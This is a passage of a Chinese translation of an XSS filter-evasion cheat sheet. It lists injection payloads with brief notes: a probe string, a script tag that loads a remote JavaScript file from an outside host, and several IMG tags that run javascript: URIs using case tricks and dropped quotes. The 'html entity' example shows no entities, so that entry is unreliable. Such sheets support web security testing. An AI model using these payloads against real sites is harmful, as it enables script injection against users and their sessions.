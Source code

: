 * * *

### xss 探测器2

如果你没有充足的输入空间去检测页面是否存在xss漏洞。下面这段代码是一个好的简洁的xss注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses <XSS这样的输入点从而判断是否存在xss漏洞。

```
'';!--"<XSS>=&{()}
```

* * *

### 无过滤绕过

这是一个常规的xss注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
```

* * *

* * *

### 通过javascript指令实现的图片xss

图片xss依靠javascript指令实现。（IE7.0不支持javascript指令在图片上下文中，但是可以在其他上下文触发。下面的例子仅仅展示了一种其他标签依旧通用的原理。）

```
<IMG SRC="javascript:alert('XSS');">
```

* * *

### 无引号无分号

```
<IMG SRC=javascript:alert('XSS')>
```

* * *

### 不区分大小写的xss攻击向量

```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

* * *

### html 实体

The semicolons are required for this to work:

```
<IMG SRC=javascript:alert("XSS")>
```

* * *

